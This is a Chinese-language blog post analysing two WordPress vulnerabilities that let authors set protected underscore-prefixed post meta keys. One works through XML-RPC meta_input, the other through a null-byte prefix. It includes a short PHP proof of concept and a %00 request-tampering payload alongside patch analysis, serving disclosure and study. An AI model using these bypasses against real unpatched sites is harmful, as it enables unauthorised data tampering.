 ```yaml
---
title: Wordpress POST META_NAME校验绕过
date: 2017-09-05 00:00:00
tags: 漏洞分析
---
```


作者：Ambulong@vulspy

Wordpress中的POST META为`文章`的`自定义栏目/字段`，就如一篇`文章`中会有`标题`、`作者`等字段，但是对于有些主题/插件来说，`文章`中的自有字段显得不够用，就需要用到`自定义栏目/字段`。

*（该操作的位置在`添加/编辑文章`，在文本编辑框下方的`自定义栏目`，如果没有找到`自定义栏目`，需要在右上角的`显示选项`内将`自定义栏目`勾选。）*

`自定义栏目/字段`的数据以`meta_key`（字段/栏目名）->`meta_value`（值）的形式存放在`wp_postmeta`表内。以`下划线`开头的`meta_key`（字段/栏目名）被认为是保留字段，不允许用户添加。

本文将介绍如何绕过Wordpress的`meta_key`检查，添加字段/栏目名以`下划线`开头的`自定义栏目/字段`。

## 第一章 Wordpress ≤ 4.7.4 XML-RPC API POST META 未校验漏洞

参考内容：[WordPress 4.7.5 Security and Maintenance Release](https://wordpress.org/news/2017/05/wordpress-4-7-5/)

### 1.1 POC

```php
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);
```
POC来自 [Wordpress SQLi — PoC by slavco](https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e)

### 1.2 漏洞分析

**补丁位置：[wp-includes/class-wp-xmlrpc-server.php](https://github.com/WordPress/WordPress/commit/e88a48a066ab2200ce3091b131d43e2fab2460a4#diff-6a81e4b18bb9bfe1f02588ddc35d801b) **

{% asset_img 1.2.1.png 漏洞分析 %}

根据补丁的内容，是将传入的$content_struct内容进行了白名单限制，同时也过滤了POC中的`meta_input`。

1.先看修复后的_insert_post函数中我们关注代码（文件：[wp-includes/class-wp-xmlrpc-server.php](https://github.com/WordPress/WordPress/blob/e88a48a066ab2200ce3091b131d43e2fab2460a4/wp-includes/class-wp-xmlrpc-server.php#L1297)）

```php
protected function _insert_post( $user, $content_struct ) {
	$defaults = array(
		...//ignore
		'custom_fields'  => null,
		'terms_names'    => null,
		'terms'          => null,
		'sticky'         => null,
		'enclosure'      => null,
		'ID'             => null,
	);
	$post_data = wp_parse_args( array_intersect_key( $content_struct, $defaults ), $defaults );
	...//ignore
	if ( isset( $post_data['custom_fields'] ) )
		$this->set_custom_fields( $post_ID, $post_data['custom_fields'] );
	...//ignore
	$post_ID = $update ? wp_update_post( $post_data, true ) : wp_insert_post( $post_data, true );
	if ( is_wp_error( $post_ID ) )
		return new IXR_Error( 500, $post_ID->get_error_message() );
	if ( ! $post_ID )
		return new IXR_Error( 401, __( 'Sorry, your entry could not be posted.' ) );
	return strval( $post_ID );
}
```

按正常的业务流程，POST META应当是从`custom_fields`中获取，之后带入set_custom_fields函数中，而且set_custom_fields函数会对`meta_key`进行检查，不应当存在问题。

但是在wp_update_post函数与wp_insert_post函数中，会从$post_data['meta_input']中取出数据，不经检查直接添加到`自定义栏目/字段`中。

2.函数wp_insert_post中我们关注的代码（文件：[wp-includes/post.php](https://github.com/WordPress/WordPress/blob/9891448a421f495e3745356bab88ec985a0e64b8/wp-includes/post.php#L2974)）

```php
function wp_insert_post( $postarr, $wp_error = false ) {
	...//ignore
	$postarr = wp_parse_args($postarr, $defaults);
	unset( $postarr[ 'filter' ] );
	$postarr = sanitize_post($postarr, 'db');
	...//ignore
	if ( ! empty( $postarr['meta_input'] ) ) {
		foreach ( $postarr['meta_input'] as $field => $value ) {
			update_post_meta( $post_ID, $field, $value );
		}
	}
	...//ignore
}

```

## 第二章 Wordpress ≤ 4.8.2 POST META 校验绕过漏洞

**该章节更新时间：2017年11月09日**

吐槽：该缺陷于9月初[报告](https://hackerone.com/reports/265484)给WP Team，然而2个多月过去了仍然只有9月5号的一条回复。:(

Wordpress目前最新版为4.8.3，建议大家更新。

### 2.1 一个MySQL的trick

1). 正常的条件查询语句
```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

2). 现在我们将_thumbnail_id修改成"\x00_thumbnail_id"
```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0
```

3). 再次执行第一步的查询
```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

我们可以发现依然可以查询出修改后的数据。

### 2.2 POST META 校验绕过

我们来看下检查`meta_key`的代码，文件[./wp-includes/meta.php](https://github.com/WordPress/WordPress/blob/bbb8d48086b7d10908f4fda673585ee122f2851d/wp-includes/meta.php#L920)：
```php
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );

    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
}
```
`is_protected_meta`函数只检查了`$meta_key`的第一个字符是否以`_`开头。我们有了2.1的MySQL trick，想要绕过`meta_key`的检查就显得容易多了。

### 2.3 POC

在添加`自定义栏目/字段`时抓包，将_thumbnail_id替换为%00_thumbnail_id。

## 参考
* WordPress 4.7.5 Security and Maintenance Release - [https://wordpress.org/news/2017/05/wordpress-4-7-5/](https://wordpress.org/news/2017/05/wordpress-4-7-5/)
* Wordpress SQLi — PoC by slavco - [https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e](https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e)

